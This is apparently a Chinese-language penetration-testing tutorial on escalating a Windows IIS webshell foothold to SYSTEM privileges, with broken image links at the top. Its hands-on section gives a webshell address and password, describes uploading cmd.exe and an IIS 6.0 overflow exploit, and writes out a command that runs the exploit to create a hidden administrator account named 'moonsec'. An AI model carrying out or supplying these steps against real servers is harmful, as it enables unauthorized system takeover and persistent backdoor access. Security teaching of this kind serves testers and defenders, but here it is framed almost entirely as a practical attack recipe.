




## 1、简介

window服务器 常用的是win2003、win2008、win2012；在渗透测试中 ，我们获取的权限是iis_user用户组 ，要更高的权限就需要把当前的用户提权到系统用户或超级管理员用户组。更高的权限方便我们在后续的渗透中，扩大范围测试。

## 2、程序权限的对比

在iis里面 权限依次的大小对比  aspx -->  php  => asp

aspx默认能执行终端命令

php和asp 如果不能执行命令，在组件没有删除的情况下，可以上传cmd到可执行目录、执行命令 均可以执行终端命令。

执行命令的组件

wscript.shell √ 命令行执行组件,显示

## **3、 溢出过程**

- 在webshell中能执行终端命令

- 上传溢出exp

- 执行命令

## 4、实战

在iis里面默认上传的大小是200k 大于就会报错。

http://www.demoasp.com/sb.asp 密码F4ck

查看组件是否删除

 

查看目录是否可写 可写则上传cmd.exe 执行命令 

 

上传溢出工具 ii6.0溢出工具执行

 

当前的权限就是system用户

增加用户命令

```bash
C:\RECYCLER\iis6.0.exe "net user moonsec moonsec /add & net localgroup administrators moonsec /add"
```

 

登录服务器

 